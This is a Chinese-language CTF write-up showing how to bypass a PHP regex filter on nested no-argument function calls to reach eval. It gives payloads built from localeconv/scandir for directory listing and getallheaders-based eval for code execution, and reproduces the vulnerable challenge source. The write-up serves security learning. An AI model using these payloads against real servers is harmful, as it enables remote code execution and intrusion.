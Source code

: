 看正则，传入的get只能是函数形式：`a();`；(?R)?表示递归查询，也就是像`a(a());`这样

那么思路就是利用php的函数来执行咱们想要的东西



因为这题没啥过滤，一个思路是扫描目录然后读文件：
考虑用`scandir()`，然后需要的`.`可以利用`localeconv()`构造：[PHP： localeconv - Manual](https://www.php.net/manual/zh/function.localeconv.php)



> ```php
> localeconv()	——返回一包含本地数字及货币格式信息的数组,数组第一项是.
> current()		——别名为pos()返回数组中的当前元素值, 默认取第一个值，
> array_reverse()	——逆向输出数组
> array_flip()	——交换数组的键和值
> array_rand()	——从数组随机一个或多个单元，不断刷新访问就会不断随机返回
> ```
>
> ![](https://s2.loli.net/2022/01/09/wct2JBFUDs8iN9V.png)

不过这里输出了一下当前和上级目录发现都不在，那应该就是在根目录下了

```
var_dump(scandir(pos(localeconv())));
var_dump(scandir(next(scandir(pos(localeconv())))));
```

那就尝试另外的方法：



一是在headers里写马：

```
eval(pos(getallheaders())); # 利用xff传参
eval(array_rand(array_flip(getallheaders()))); # 利用了rand，比较随机，哪个请求标头都行，多跑几次
```

![](https://s2.loli.net/2022/01/09/1ClUiVH58Tzh6Qm.png)



另一个就是利用`get_defined_vars()`

思路是将`GET POST COOKIE FILE`方法传输的数据截取出来，再利用eval包起来从而实现rce

像这次长安战疫，把其他方法都ban掉了

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    if(!preg_match('/session|end|next|header|dir/i',$_GET['code'])){
        eval($_GET['code']);
    }else{
        die("Hacker!");
    }
}else{
    show_source(__FILE__);
}

?>
```
